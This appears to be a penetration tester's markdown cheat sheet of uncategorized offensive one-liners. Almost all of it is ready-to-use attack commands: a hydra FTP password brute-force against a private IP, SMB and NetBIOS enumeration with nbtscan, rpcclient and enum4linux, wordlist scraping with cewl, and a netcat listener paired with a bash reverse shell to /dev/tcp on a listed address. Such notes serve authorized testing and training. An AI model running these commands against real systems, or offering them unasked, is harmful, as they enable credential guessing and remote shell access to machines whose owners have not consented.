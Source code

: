 ```yaml
---
title:  "Various uncategorized utilities"
---
```



* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`


# Connections
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`
